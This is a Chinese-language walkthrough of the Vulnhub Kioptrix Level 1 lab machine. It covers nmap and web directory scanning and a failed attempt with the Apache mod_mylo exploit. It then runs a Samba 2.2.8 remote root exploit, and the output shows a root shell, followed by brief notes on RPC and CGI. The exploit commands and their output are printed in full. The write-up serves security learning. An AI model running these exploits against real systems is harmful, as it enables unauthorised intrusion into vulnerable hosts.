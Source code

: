 ```yaml
---
title: Vulnhub-KioptrixLevel1通关记录
tags:
---
```


## 靶机描述

靶机 IP :  10.8.12.128

>This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## 信息收集

### nmap扫描

按照常规的方法：通过 TCP | UDP 扫描端口、获取开放端口对应信息、系统版本信息

下面是通过 TCP 扫描发现所收集到的信息：

```
$ sudo nmap -sT -p- --min-rate 10000 10.8.12.128 -oN nmapscan/portscan.txt
Nmap scan report for 10.8.12.128
Host is up (0.00067s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
443/tcp  open  https
1024/tcp open  kdm

$ sudo nmap -sT -p22,80,111,139,443,1024 -sV -sC -O --min-rate 10000 10.8.12.128 -oN nmapscan/servscan.txt
.......
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
1024/tcp open  status      1 (RPC #100024)
.......

Linux 2.4.9 - 2.4.18 (likely embedded) (97%)......
```

根据 `nmap` 的扫描结果，可以看到靶机开放了22，80，111，139，443，1024端口，对应的服务分别为 ssh ，web ， smb ，rpc。 

### Web 目录扫描

```
/.html                (Status: 403) [Size: 269]
/index.html           (Status: 200) [Size: 2890]
/test.php             (Status: 200) [Size: 27]
/manual               (Status: 301) [Size: 294] [--> http://127.0.0.1/manual/]
/usage                (Status: 301) [Size: 293] [--> http://127.0.0.1/usage/]
/mrtg                 (Status: 301) [Size: 292] [--> http://127.0.0.1/mrtg/]
```

## 获取立足点

### 失败尝试：绕过 `127.0.0.1` 限制

因为看到如下提示，就在想能不能用绕过的方式，访问到 `127.0.0.1` 的资源，期间尝试了以下几种方法：

1. 添加 `x-forward-for` 头，但是依旧重定向到 `127.0.0.1` ；
2. 通过 SSRF 的方式绕过，但未找到可利用的文件；

### 失败尝试：Apache 1.3.20 RCE

通过 `searchsploit` 查询到 `Apache 1.3.20` 存在 RCE 漏洞，将对应的脚本 `67.c` 复制到本地后进行使用 `gcc` 编译，但编译后爆破攻击失败。

```
$ searcgsploit Apache 1.3

.....
Apache 1.3.x mod_mylo - Remote Code Execution | multiple/remote/67.c 
.....

$ searchsploit -m 67.c
  Exploit: Apache 1.3.x mod_mylo - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/67
     Path: /usr/share/exploitdb/exploits/multiple/remote/67.c
    Codes: OSVDB-10976, CVE-2003-0651
 Verified: True
File Type: C source, ASCII text
Copied to: /home/kali/Desktop/BoxWalk/Vulnhub/kioptrix/level1/67.c

$ gcc -o 67 67.c

$ ./67 -h
Apache + mod_mylo remote exploit
By Carl Livitt (carllivitt at hush dot com)

Arguments:
  -t target       Attack 'target' host
  -T platform     Use parameters for target 'platform'
  -h              This help.

Available platforms:
 0. SuSE 8.1, Apache 1.3.27 (installed from source) (default)
 1. RedHat 7.2, Apache 1.3.20 (installed from RPM)
 2. RedHat 7.3, Apache 1.3.23 (installed from RPM)
 3. FreeBSD 4.8, Apache 1.3.27 (from Ports)

$ ./67 -t 10.8.12.128 -T 1
[-] Attempting attack [ RedHat 7.2, Apache 1.3.20 (installed from RPM) ] ...
[*] Bruteforce failed....

Have a nice day!
```

### smb攻击

发现靶机开放了139端口，使用 `msf` 对 smb 服务进行攻击。

```
$ ./a.out -b0 10.8.12.128
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)
whoami
root
```

## 注释

### RPC协议

>RPC（ Remote Procedure Call ）远程过程调用协议，一种通过网络从远程计算机上请求服务，而不需要了解底层网络技术的协议。RPC 它假定某些协议的存在，例如 TPC / UDP 等，为通信程序之间携带信息数据。在 OSI 网络七层模型中，RPC 跨越了传输层和应用层，RPC 使得开发，包括网络分布式多程序在内的应用程序更加容易。

![RPC流程图](https://pic.imgdb.cn/item/64a6d7c41ddac507ccd18b65.jpg)

### CGI 定义

>CGI 目前由NCSA维护，NCSA 定义 CGI 如下：
>
>CGI ( Common Gateway Interface ) ，通用网关接口，它是一段程序,运行在服务器上如：HTTP服务器，提供同客户端 HTML 页面的接口。

CGI 工作流程（用户在网页上点击一个链接或URL）：

1. 使用你的浏览器访问URL并连接到HTTP web 服务器。
2. Web服务器接收到请求信息后会解析URL，并查找访问的文件在服务器上是否存在，如果存在返回文件的内容，否则返回错误信息。
3. 浏览器从服务器上接收信息，并显示接收的文件或者错误信息。

CGI 程序可以是 Python 脚本，PERL 脚本，SHELL 脚本，C 或者 C++ 程序等。

![CGI架构图](https://pic.imgdb.cn/item/64a6ef551ddac507cc075799.jpg)